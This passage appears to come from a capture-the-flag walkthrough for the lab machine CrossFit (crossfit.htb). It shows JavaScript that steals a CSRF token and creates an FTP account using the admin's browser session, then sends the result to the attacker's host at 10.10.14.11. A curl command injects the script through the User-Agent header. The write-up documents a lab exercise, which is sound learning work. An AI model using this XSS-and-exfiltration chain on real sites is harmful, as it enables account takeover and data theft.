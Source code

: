

    function get_token(body) {
        var dom = new DOMParser().parseFromString(body, 'text.md');
        return dom.getElementsByName('_token')[0].value;
    }


    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if (fetch_req.readyState == XMLHttpRequest.DONE) {
            var token = get_token(fetch_req.response);

            var reg_req = new XMLHttpRequest();
            reg_req.onreadystatechange = function() {
                if (reg_req.readyState == XMLHttpRequest.DONE) {
                    var exfil_req = new XMLHttpRequest();
                    exfil_req.open("POST", "http://10.10.14.11:3000/", false);
                    exfil_req.send(reg_req.response);
                }
            };
            reg_req.open("POST", "http://ftp.crossfit.htb/accounts", false);
            reg_req.withCredentials = true;
            reg_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            reg_req.send("_token=" + token + "&username=0xdf&pass=0xdf0xdf");
        }
    };

    fetch_req.open("GET", "http://ftp.crossfit.htb/accounts/create", false);
    fetch_req.withCredentials = true;
    fetch_req.send();



Run it with `curl` (at this point I've added a `grep` on the results for
the XSS message to stop printing a full page each time, but still make
sure the request didn't break):



    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-account.js"></script>' | grep -i xss
                        <div class='alert alert-danger' role='alert'><h4>XSS attempt detected</h4><hr>A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.</div><br>                    <div>



After a GET at my Python webserver on 80 for `ftp-create-account.js`, I
see the POST come back at `nc`:



    POST / HTTP/1.1
    Host: 10.10.14.11:3000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 1722
    Origin: http://gym-club.crossfit.htb
    Connection: keep-alive
